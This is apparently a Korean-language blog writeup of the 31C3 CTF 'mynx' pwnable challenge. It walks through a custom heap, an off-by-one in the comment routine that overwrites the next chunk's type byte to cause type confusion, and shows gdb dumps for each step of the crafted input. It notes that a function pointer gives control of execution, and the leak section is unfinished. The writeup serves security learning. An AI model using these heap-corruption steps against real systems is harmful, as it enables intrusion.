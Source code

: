 ```yaml
---
layout: post
title: "31C3 CTF mynx writeup"
headline:
modified: 2017-01-17
category: pwnable
comments: true
featured: true
---
```


A writeup for mynx challenge from 31c3 CTF. Have fun :)

## mynx

**Category:** pwnable
**Points:** 30
**Type:** Off-by-One, Custom Heap Implementation
**Description:**
> mynx running on 188.40.18.80 1234

### Custom Heap Implementation

전역변수 형태로 정의되어 있는 `heapTable@0x0804A900`와 `chunkCntTable@0x0804A904`와 `idxCnt@0x0804A940`가 Heap Management를 수행하는데 사용된다. `heapTable`의 경우 4096(0x1000)byte만큼 할당되는 메모리 블록들의 포인터 배열이며, 각각의 메모리 블록들은 256(0x100)byte 단위(**chunk**라 하자)로 16등분되어 사용된다. 그리고 `chunkCntTable`은 앞에 선언된 `heapTable`에 존재하는 chunk의 개수를 저장하고 있다. 만약 16개가 넘는다면 out-of-memory 에러를 출력하도록 되어있다. `idxCnt`는 이후에 저장되는 ascii_art 혹은 comment 의 id값을 저장하기 위한 변수이다. 해당 바이너리에서 사용되는 구조체는 크게 2가지 유형이 있다.

```c
struct ascii_art {
  char type; // 0x49 : ascii_art
  int id;
  void (*filter_method)(char * content);
  char content[247];
}
```

```c
struct comment {
  char type; // 0x37 : comment
  int id;
  char comment[251];
}
```

두 구조체의 크기는 256(0x100)byte로 동일하다. 즉, 메모리 블록내에 256byte 단위로 존재하는 chunk만큼 할당이 되는 것이다.

### Vulnerability

취약점은 `addComment@0x08048CE3`함수에 존재한다. `addAsciiart@0x08048D8B`의 경우 `read()` 함수로 입력받을 때, 247byte 만큼만 받는다. 하지만, `addComment`의 경우 할당된 크기(251byte)보다 1byte 더 크게 입력 받는다. 즉, 여기서 **Off-by-One** 취약점이 발생한다. 이는 절묘하게도 다음 chunk의 `type`값을 덮어쓸 수 있고, 결국 **Type Confusion** 취약점으로 연계될 수 있다.

Debugging
---------

(1) add ascii_art A1(0x804b008) - AAAA

(2) add ascii_art A2(0x804b108) - BBBB

(3) add comment(C1:0x804b208) to A1 - aaaa

(4) add comment(C2:0x804b308) to A2 - bbbb

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000237	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
```

(5) add ascii_art A3(0x804b408) - CCCC (6) delete comment(C2:0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000200	0x62626200	0x00000a62	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(7) add comment(C3:0x804b308) to A3 - cccc ; it will put in C2(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000137	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(8) delete comment(C1:0x0804b208)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000100	0x61616100	0x00000a61	0x00000000
0x804b218:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000337	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000
```

(9) add comment(C2) to A2 - "b"*0xfb + "\x49" ; it will put in C1(0x0804b208) and overwrite C3(0x804b308)

```
gdb-peda$ x/8wx 0x0804b008
0x804b008:	0x00000149	0x048c2b00	0x41414108	0x00000a41
0x804b018:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b108
0x804b108:	0x00000249	0x048c2b00	0x42424208	0x00000a42
0x804b118:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
gdb-peda$ x/8wx 0x0804b308
0x804b308:	0x00000349	0x63636300	0x00000a63	0x00000000
0x804b318:	0x00000000	0x00000000	0x00000000	0x00000000
gdb-peda$ x/8wx 0x0804b408
0x804b408:	0x00000349	0x048c2b00	0x43434308	0x00000a43
0x804b418:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ x/65wx 0x0804b208
0x804b208:	0x00000237	0x62626200	0x62626262	0x62626262
0x804b218:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b228:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b238:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b248:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b258:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b268:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b278:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b288:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b298:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2a8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2b8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2c8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2d8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2e8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b2f8:	0x62626262	0x62626262	0x62626262	0x62626262
0x804b308:	0x00000349
```

### EIP Control

실행흐름을 바꾸기 위해서는 여러가지 방법이 존재하지만 여기서는 고맙게도 함수 포인터(Function Pointer)가 존재한다. ![function_ptr]({{ site.url }}/images/2017-01-17/function_ptr.png) 심지어 인자 값까지 컨트롤 가능하므로 완벽한 취약점 조건이 된다.

### Constructing an Information Leak

TBA
